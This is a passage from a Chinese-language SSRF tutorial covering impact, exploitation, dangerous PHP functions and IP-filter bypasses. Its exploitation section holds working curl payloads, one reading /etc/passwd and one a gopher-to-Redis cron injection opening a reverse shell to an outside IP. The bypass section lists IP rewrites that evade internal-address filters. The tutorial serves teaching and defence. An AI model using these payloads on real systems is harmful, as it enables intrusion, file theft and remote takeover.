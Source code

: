 #### 1. 漏洞危害
SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。

内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务为了运维方便并没有对内网的访问设置权限验证，所以存在SSRF时，通常会造成较大的危害。
### 2. 利用方式
SSRF利用存在多种形式以及不同的场景, 针对不同场景可以使用不同的利用和绕过方式

以curl为例, 可以使用dict协议操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：
```bash

curl -vvv 'file:///etc/passwd'

# * 注意: 链接使用单引号，避免$变量问题

curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```
### 3. 相关危险函数
SSRF涉及到的危险函数主要是网络访问, 支持伪协议的网络读取. 以PHP为例,涉及到的函数有 `file_get_contents()` / `fsockopen()` / `curl_exec()`等。

### 4. 过滤绕过
#### 1. 更改IP地址写法
一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤内网IP, 如采用如下正则表达式：

- `^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$`
- `^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$`
- `^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$`

对于这种过滤我们采用改编IP的写法的方式进行绕过, 例如 192.168.0.1 这个IP地址可以被改写成:

- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0xA8.0.1
- 10进制整数格式：3232235521
- 16进制整数格式：0xC0A80001
- 合并后两位：1.1.278 / 1.1.755
- 合并后三位：1.278 / 1.755 / 3.14159267

另外IP中的每一位，各个进制可以混用。

访问改写后的IP地址时，Apache会报400 Bad Request，但Nginx、MySQL等其他服务仍能正常工作。

另外，`0.0.0.0`这个IP可以直接访问到本地，也通常被正则过滤遗漏。

#### 2. 使用解析到内网的域名
如果服务端没有先解析IP再过滤内网地址, 我们就可以使用localhost等解析到内网的域名

另外 `xip.io` 提供了一个方便的服务, 这个网站的子域名会解析到对应的IP, 例如 192.168.9.1.xip.io, 解析到192.168.0.1

#### 3. 利用解析URL所出现的问题
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

